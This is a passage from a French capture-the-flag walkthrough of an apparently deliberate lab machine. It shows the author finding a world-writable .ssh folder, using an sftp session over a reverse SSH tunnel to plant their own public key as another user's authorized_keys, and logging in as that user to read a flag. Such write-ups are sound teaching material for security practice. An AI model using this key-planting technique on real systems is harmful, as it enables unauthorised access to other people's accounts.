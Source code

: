 Notre prochaine cible est de toute évidence l'utilisateur *robertj* présent sur le système.  

```plain
www-data@driftingblues:/var/www/html$ ls /home/robertj/ -al  
total 16 
drwxr-xr-x 3 robertj robertj 4096 Jan  4  2021 . 
drwxr-xr-x 3 root    root    4096 Jan  4  2021 .. 
drwx---rwx 2 robertj robertj 4096 Jan  4  2021 .ssh 
-r-x------ 1 robertj robertj 1805 Jan  3  2021 user.txt
```

Oh ! son dossier *.ssh* est accessible en écriture pour tous. J'utilise le tunnel ReverseSSH pour déposer ma clé publique et je peux ensuite accéder au compte sur le serveur SSH en écoute :  

```plain
$ sftp -P 8888 127.0.0.1 
devloop@127.0.0.1's password:  
Connected to 127.0.0.1. 
sftp> cd /home/robertj/.ssh/
sftp> put /home/devloop/.ssh/id_rsa.pub authorized_keys 
Uploading /home/devloop/.ssh/id_rsa.pub to /home/robertj/.ssh/authorized_keys

$ ssh robertj@192.168.56.8 
Enter passphrase for key '/home/devloop/.ssh/id_rsa':  
Linux driftingblues 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64 

The programs included with the Debian GNU/Linux system are free software; 
the exact distribution terms for each program are described in the 
individual files in /usr/share/doc/*/copyright. 

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent 
permitted by applicable law. 
robertj@driftingblues:~$ cat user.txt  
flag 1/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░░░░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░░▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 
```
